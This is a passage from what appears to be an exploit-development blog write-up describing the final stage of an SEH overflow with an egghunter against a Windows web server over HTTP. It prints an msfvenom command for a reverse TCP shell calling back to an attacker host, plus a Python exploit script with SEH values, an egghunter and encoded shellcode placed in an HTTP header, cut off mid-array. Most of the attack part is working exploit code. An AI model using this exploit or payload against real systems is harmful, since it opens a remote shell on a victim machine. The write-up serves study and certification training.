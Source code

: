 ![](/assets/images/CTP/correctxitami.JPG)

## End Game

The only thing left for us to do now is to somehow lodge our shellcode in the program's memory space so that our egghunter can find and execute it. I struggled here because I'd never really done this before. I had to peak at the ExploitDB PoC once again and saw that he lodged his shellcode as the value of another HTTP request header value. That's pretty sick! 

We haven't checked for badchars at this point, so if we don't get a call back it could be badchars or our shellcode not being placed in application memory. But since we're lodging this final payload into the application memory somewhere that apparently has large buffer space (notice that we didn't crash the application while fuzzing any other parameter besides `If-Modified-Since`), we can try to head off badcharacter concerns by making the shellcode alphanumeric as these chars are less likely to be bad. **We also musn't forget that our final payload ought to be prepended with two instances of 'PWNS' so that our egghunter can identify it.**

### Shellcode in HTTP Request Parameter

Let's generate our shellcode: `msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.209 -f c -e x86/alpha_mixed`

Let's try stuffing it into the `Host:` parameter in our HTTP request. Our final exploit code now looks like this:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#Tag = PWNS
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

shellcode = 'PWNSPWNS'
#msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.1.209 -f c -e x86/alpha_mixed
#710 bytes
shellcode += ("\x89\xe6\xda\xdc\xd9\x76\xf4\x5f\x57\x59\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a"
"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32"
"\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
"\x49\x6c\x6b\x58\x6b\x32\x57\x70\x67\x70\x45\x50\x61\x70\x6e"
"\x69\x6d\x35\x70\x31\x4f\x30\x70\x64\x6e\x6b\x76\x30\x76\x50"
"\x4c\x4b\x50\x52\x46\x6c\x4e\x6b\x30\x52\x76\x74\x6e\x6b\x33"
"\x42\x61\x38\x44\x4f\x6c\x77\x71\x5a\x57\x56\x50\x31\x6b\x4f"
"\x4c\x6c\x55\x6c\x71\x71\x71\x6c\x65\x52\x34\x6c\x67\x50\x59"
"\x51\x48\x4f\x46\x6d\x66\x61\x6f\x37\x6a\x42\x59\x62\x53\x62"
"\x71\x47\x6c\x4b\x70\x52\x52\x30\x6e\x6b\x53\x7a\x55\x6c\x4c"
"\x4b\x42\x6c\x32\x31\x34\x38\x68\x63\x42\x68\x77\x71\x6e\x31"
"\x36\x31\x4c\x4b\x70\x59\x31\x30\x46\x61\x6e\x33\x4c\x4b\x42"
"\x69\x42\x38\x6b\x53\x64\x7a\x61\x59\x6c\x4b\x44\x74\x4c\x4b"
"\x66\x61\x6b\x66\x36\x51\x79\x6f\x4e\x4c\x49\x51\x68\x4f\x46"
"\x6d\x57\x71\x7a\x67\x45\x68\x6d\x30\x73\x45\x79\x66\x76\x63"
"\x71\x6d\x6c\x38\x65\x6b\x61\x6d\x34\x64\x43\x45\x6d\x34\x36"
"\x38\x4e\x6b\x50\x58\x56\x44\x65\x51\x38\x53\x45\x36\x6e\x6b"
"\x54\x4c\x42\x6b\x6c\x4b\x62\x78\x35\x4c\x43\x31\x38\x53\x4e"
"\x6b\x73\x34\x6e\x6b\x57\x71\x68\x50\x4c\x49\x31\x54\x67\x54"
"\x34\x64\x71\x4b\x33\x6b\x51\x71\x36\x39\x61\x4a\x53\x61\x59"
"\x6f\x4d\x30\x43\x6f\x31\x4f\x73\x6a\x4c\x4b\x77\x62\x4a\x4b"
"\x6c\x4d\x33\x6d\x31\x78\x64\x73\x50\x32\x35\x50\x73\x30\x52"
```